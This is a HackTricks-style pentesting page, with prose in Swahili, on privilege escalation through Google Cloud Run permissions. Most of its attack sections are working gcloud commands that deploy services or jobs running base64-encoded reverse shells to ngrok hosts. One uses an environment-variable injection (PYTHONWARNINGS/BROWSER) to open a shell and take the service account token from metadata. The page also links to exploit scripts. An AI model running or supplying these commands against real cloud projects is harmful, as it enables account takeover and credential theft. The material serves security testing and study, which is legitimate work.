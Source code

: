 # GCP - Run Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Run

Kwa maelezo zaidi kuhusu Cloud Run angalia:

{{#ref}}
../gcp-services/gcp-cloud-run-enum.md
{{#endref}}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Mshambuliaji mwenye ruhusa hizi za **kuunda huduma ya run inayotumia msimbo wa kawaida** (konteina ya Docker ya kawaida), kuunganisha Akaunti ya Huduma nayo, na kufanya msimbo **kuhamasisha tokeni ya Akaunti ya Huduma kutoka kwenye metadata**.

Script ya kutumia kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) na picha ya Docker inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Kumbuka kwamba unapokuwa unatumia `gcloud run deploy` badala ya kuunda tu huduma **inahitaji ruhusa ya `update`**. Angalia [**mfano hapa**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Kama ile ya awali lakini inasasisha huduma:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Jipe ruhusa za awali juu ya cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Zindua kazi na shell ya kurudi ili kuiba akaunti ya huduma iliyoonyeshwa kwenye amri. Unaweza kupata [**exploit hapa**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Kama ilivyo kwa ile ya awali, inawezekana **kusaidia kazi na kuboresha SA**, **amri** na **kuitekeleza**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

Jipe ruhusa za awali juu ya Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Tumia mabadiliko ya mazingira ya utekelezaji wa kazi ili kutekeleza msimbo wa kiholela na kupata shell ya kurudi ili kutupa maudhui ya kontena (msimbo wa chanzo) na kufikia SA ndani ya metadata:
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
## Marejeleo

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
